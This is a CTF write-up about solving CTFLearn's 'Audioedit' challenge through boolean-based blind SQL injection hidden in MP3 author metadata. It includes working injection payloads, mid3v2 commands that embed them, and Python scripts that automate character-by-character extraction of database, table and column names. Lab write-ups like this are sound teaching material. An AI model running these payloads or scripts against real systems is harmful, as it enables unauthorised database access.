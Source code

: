 ```yaml
---
layout: post
title:  "Audioedit Writeup: CTFLearn"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```


The CTF was terribly insane blind SQLi. I started in morning,  lost my entire day on simple mistakes and got real frustated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge in night from my friend **Jokr**. So, lets get started.

# Finding the Injection
As its name suggest, it takes `.mp3` file and edits it. So, we have a file upload which leads to edit page with unique generated filename. I tried playing with file upload. Eventually, it lead me to nowhere and i assumed file upload was secure. So, what to do then. Well, it took me sometime to realize the file was being fetched from database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though jokr said SQLi isnt here still I tried SQL injection and injecting a quote, i  got error **"Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for sometime again failed me. It wasnt working for some reasons (not because of rabbit). Later, injecting " gave me same error as '  which means its not vulnerable. I took some caffeine and started thinking where could i find possible attack vector as i could only upload .mp3. 

Later he gave a hint that SQLi is in exif metadata. Also, `exiftool` didnt work for mp3 file, so i had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmdline script for the situation.

# Knowing the Injection
First, i confirmed the vulnerability by adding a single quote (and by testing double quote). This command injects author tag in mp3: `mid3v2 -a "' or '" testing.mp3`. I got 0 in author response which indicates condition evaluated to False. Since, running program, uploading it and checking condition is lengthy, i used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time i tried something new, it gave a error. One more thing to notice is that sending file content with same content but entirely different filename caused **File Exist** error to be thrown. Mine frustation slowly increased with time, later i found out it was because i directly edited the request from burpsuite *(which i should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally i found out what i was exploiting was boolean based blind SQLi. The injection point was `' or SQLCOMMAND or '`. For futher confirmation, i did this which i thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.
# Exploing SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database, table and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substr(version(),1,1)=5) or '`  which returned 1 and is equivalent to boolean true. 

Then, moving forward to finding current database which was not easy but ok. Since, it was boolean based blind doing it by hand would take ages. So, i coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with explanation.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is a SQLExploit object which i will talk later, and tries all the character while `reset()` function opens the mp3 file again. I ran into problem where first query ran successfully while second errored out in while loop. This again wasted my 10 minutes along with giving me some irritation. Later i fixed it by reopening the file each time i execute the loop. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substr(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need lets start the exploit. Also, some part was slightly modified in this code which i wont show as its not necessary.
Now, lets run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Lets go for table. I asked him about how to find tables and hinted about information_schema. I created similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, its hard to include this upper payload in SQLi and thats why i did `substr()` method. Also, after debugging my payload and improving it i get:     

`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`   
 
I also modified `setcmd()` function slightly and exploiting gives me `audioedit` which is same as database name.

Ah, i was tired and irritated. Took some caffeine again and got started. For numbers of columns in that table, querying information schema i used this:   

`' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, after running script i know number of columns are 5, now what. After writing another payload to find column it errored out no matter what i used. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First i thought `limit` was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when payload was large, then i added `()`  which caused error. Oh, so spaces are the problem. Why the hell did i used `2=2`. Shit. Also, i reduced `get_random_string()` to length of 2. Finally it worked like a charm and got the first column name, then second, then third... 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column File and found out the flag was in file `supersecretflagf1le.mp3`. So, i used the file parameter to reference that file and unfortunately i didnt get flag. 

# Audio Editing
Its the final step, setting visualization to sonogram and editing some other stuffs, i get the flag embedded in image. After submitting i felt quite relaxed.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)

I used this resource constantly during exploiting SQLi: [SQL Wiki](https://sqlwiki.netspi.com/)


# Takeaway 

* Always check for lenth of SQL query you can inject.
* Pay attention to smaller details to prevent error.
* Never edit a binary by hand in Burpsuite. Its prone to errors.

